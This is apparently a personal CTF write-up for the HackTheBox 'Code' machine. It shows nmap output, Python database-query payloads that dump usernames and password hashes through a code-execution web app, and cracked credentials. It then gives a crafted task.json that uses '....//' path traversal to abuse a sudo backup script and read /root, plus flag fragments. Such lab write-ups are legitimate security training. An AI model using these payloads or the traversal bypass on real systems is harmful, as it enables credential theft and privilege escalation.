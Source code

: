 ```yaml
---
title: code.htb
date: 2025-03-21 23:02:00
categories: [hackthebox]
tags: [linux, ctf, htb, easy]
---
```


# Code hackthebox writeup

## nmap
```bash
nmap -sC -sV 10.10.11.62 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-22 20:39 CET
Nmap scan report for 10.10.11.62
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 193
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid Request Line &#x27;Invalid HTTP request line: &#x27;&#x27;&#x27;
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.95%I=7%D=3/22%Time=67DF1215%P=aarch64-unknown-linux-gn
SF:u%r(GenericLines,11E,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:
SF:\x20close\r\nContent-Type:\x20text/html\r\nContent-Length:\x20193\r\n\r
SF:\n<html>\n\x20\x20<head>\n\x20\x20\x20\x20<title>Bad\x20Request</title>
SF:\n\x20\x20</head>\n\x20\x20<body>\n\x20\x20\x20\x20<h1><p>Bad\x20Reques
SF:t</p></h1>\n\x20\x20\x20\x20Invalid\x20Request\x20Line\x20&#x27;Invalid
SF:\x20HTTP\x20request\x20line:\x20&#x27;&#x27;&#x27;\n\x20\x20</body>\n</
SF:html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Port 5000
An application which executes python code runs on port 5000. It is not possible to execute shell commands since many python elements such as import or the execute keywoard are filtered in the backend thus making it impossible to execute code and get a reverse shell. After much fuzzing i found that we can execute database payloads, such as.
```python
print([u.username for u in db.session.query(User).all()])
print([u.password for u in db.session.query(User).all()])
```
The first payload gives us possible usernames and the second payload gives us the hashes of passwords. Those hashes can be easily cracked.

### Credentials

```
Usernames:
['development', 'martin'] 

Passwords:
development
nafeelswordsmaster
```

### User Shell
We can a shell as the user martin. The flag is not available here which means we have first to pivot to another user:
```
martin@code:~$ whoami
martin
```

### priv esc
running sudo -l we see there is a script which we can run using sudo 
```bash
martin@code:~$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
martin@code:~$ cat /usr/bin/backy.sh 
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

We can use this script to read the root folder with the following task.json as the parameter which is used by the script

```bash
{  
    "destination": "/home/martin/backups/",  
    "multiprocessing": true,  
    "verbose_log": false,  
    "directories_to_archive": [  
        "/home/....//....//root"  
    ]  
}
```
We run the script using the command sudo /usr/bin/backy.sh task.json

```bash
martin@code:~/backups$ ls
code_home_app-production_app_2024_August.tar.bz2  code_home_.._.._root_2025_March.tar.bz2  root  task.json
```

The root folder contains a private key which can be used to login as the root user using ssh.

```bash
root@code:/home/app-production# cat user.txt 
12f3c56616

root@code:~# whoami
root
root@code:~# cat root.txt 
56a259fd

```

Unlinke many easy boxes this was indeed an easy box. You need to run nmap to discover the webservice running on port 5000. Afterwards it's prettty obvious there has to be some kind of shell injection which allowed us to read the database. For the root account we need to leverage the custom script which can be used with sudo privileges which allows us to read the root folder. 